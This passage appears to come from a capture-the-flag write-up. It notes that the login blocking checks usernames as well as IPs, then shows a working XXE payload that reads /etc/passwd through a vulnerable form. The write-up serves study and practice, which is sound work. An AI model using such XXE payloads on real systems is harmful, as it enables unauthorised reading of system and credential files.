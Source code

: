 ![](/img/image-20200406124451487.png)

So it seems it's not just an IP block, but also looking at username.
I'll look at this in [Beyond Root](#ip--username-blocking).

And now I can submit the form:

![](/img/image-20200406124509668.png)

This form is vulnerable to XXE file reads. For example, to get
`/etc/passwd`, I can submit a payload like this:



    <!DOCTYPE api [
      <!ELEMENT api ANY>
      <!ENTITY df SYSTEM "file:///etc/passwd">
    ]>
    <api>
        <request>&df;</request>
    </api>



![](/img/image-20200406124659228.png)
